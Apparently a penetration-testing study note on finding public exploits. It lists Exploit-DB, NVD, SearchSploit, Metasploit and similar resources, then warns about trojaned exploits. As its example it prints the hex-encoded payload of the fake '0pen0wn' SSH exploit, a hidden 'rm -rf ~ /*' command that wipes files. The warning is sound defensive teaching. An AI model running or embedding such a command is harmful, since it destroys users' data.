 # Content

- [Content](#content)
  - [A Word of Caution](#a-word-of-caution)
  - [Searching for Exploits](#searching-for-exploits)
    - [Online Exploit Resources](#online-exploit-resources)
      - [The Exploit Database](#the-exploit-database)
      - [National Vulnerability Database (NVD)](#national-vulnerability-database-nvd)
      - [Packet Storm](#packet-storm)
      - [Google Search Operators](#google-search-operators)
        - [The way to work](#the-way-to-work)
        - [Demo](#demo)
    - [Offline Exploit Resources](#offline-exploit-resources)
      - [SearchSploit](#searchsploit)
        - [The way to work](#the-way-to-work-1)
        - [Demo](#demo-1)
      - [Nmap NSE Scripts](#nmap-nse-scripts)
        - [The way to work](#the-way-to-work-2)
        - [Demo](#demo-2)
      - [The Browser Exploitation Framework (BeEF)](#the-browser-exploitation-framework-beef)
        - [The way to work](#the-way-to-work-3)
        - [Demo](#demo-3)
      - [The Metasploit Framework](#the-metasploit-framework)
        - [The way to work](#the-way-to-work-4)
        - [Demo](#demo-4)

  
## A Word of Caution

- **Never** run an exploit against a target system without first verifying that the exploit is safe to use.
- It is important to understand that by downloading and running public exploits, we can greatly endanger any system that runs that code.
- Example, a tool name 0pen0wn - was published as a remote exploit for SSH. The tool was actually a Trojan horse that would install a backdoor on the victim system.
- When we exploit the source code, we get a hex-encode array name jmpcode. 
- Then i use python to decode it and get the shellcode.
  ```cpp
  char jmpcode[] =
  "\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
  "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";
  ```